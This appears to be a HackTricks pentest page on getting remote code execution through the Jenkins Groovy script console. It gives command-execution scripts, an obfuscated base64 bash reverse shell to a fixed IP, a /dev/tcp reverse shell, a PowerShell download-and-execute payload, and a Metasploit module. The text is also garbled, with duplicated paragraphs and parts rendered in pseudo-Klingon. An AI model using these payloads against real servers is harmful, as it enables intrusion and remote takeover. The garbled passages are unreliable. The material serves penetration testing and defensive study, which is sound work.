 # Jenkins RCE with Groovy Script

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Jenkins RCE with Groovy Script

This is less noisy than creating a new project in Jenkins

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
You could execute a command using: `cmd.exe /c dir`

In **linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

**Another useful groovy script** is (replace \[INSERT COMMAND]):

**Translation (Klingon):**

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

**Another useful groovy script** is (replace \[INSERT COMMAND]):

**Translation (Klingon):**

vaj jatlh: `cmd.exe /c dir`

**linux** DaH jatlh: **`"ls /".execute().text`**

vaj _quotes_ 'ej _single quotes_ vItlhutlh. _"""PAYLOAD"""_ (tlhIv ghun) vItlhutlh payload vaj.

**'ej Hoch groovy script** vaj (replace \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell in linux

### Reverse shell in linux

#### Introduction

A reverse shell is a technique used in penetration testing to gain remote access to a target machine. It allows an attacker to establish a connection from the target machine to their own machine, effectively giving them control over the target.

#### Setting up the listener

To set up a reverse shell, you first need to create a listener on your machine. This will listen for incoming connections from the target machine.

```bash
nc -lvp <port>
```

Replace `<port>` with the desired port number. This command will start a netcat listener on the specified port.

#### Executing the reverse shell

Once the listener is set up, you can execute the reverse shell on the target machine. Here's an example using the bash shell:

```bash
bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1
```

Replace `<attacker_ip>` with the IP address of your machine and `<port>` with the port number you specified earlier.

#### Verifying the connection

If everything is set up correctly, you should see a connection established on your listener. You can now interact with the target machine through the reverse shell.

#### Conclusion

A reverse shell is a powerful technique for gaining remote access to a target machine. It allows an attacker to execute commands and perform actions as if they were physically present on the machine.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

[**vItlhutlh**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py) **ghItlh** [**script**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py) **'e'**.

MSF **ghItlh** **reverse shell** **laH**.
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlhlaHbe'chugh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
